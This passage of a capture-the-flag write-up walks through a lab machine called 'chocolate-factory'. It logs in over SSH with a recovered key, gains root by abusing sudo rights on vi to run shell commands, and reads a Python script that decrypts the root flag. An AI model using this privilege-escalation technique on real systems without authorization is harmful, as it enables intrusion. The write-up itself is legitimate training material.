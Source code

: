 ```shell
$ chmod 600 charlie_priv_key
$ ssh charlie@chocolate -i charlie_priv_key
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

charlie@chocolate-factory:/$ id
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

with `charlie` i could read the first flag

![image](/images/Pasted image 20221029150601.png)

## getting root

after checking `sudo -l` as always, i learned `charlie` could execute `vi` as super user.

```shell
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```


```shell
$ sudo vi
```

being inside `vi` press `:` followed by an `!` . after that we can execute every shell command as root 

![image](/images/Pasted image 20221029150748.png)

i got root. now read the root flag. unfortunately the flag is decoded inside a python file. after looking into the source we found the script expects some kind of key.

well we have a encoded string left to try.

```shell
root@chocolate-factory:/home/charlie# cd /root

root@chocolate-factory:/root# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
```

 and after pasting the key and pressing enter i had the root flag.

![image](/images/Pasted image 20221029151148.png)
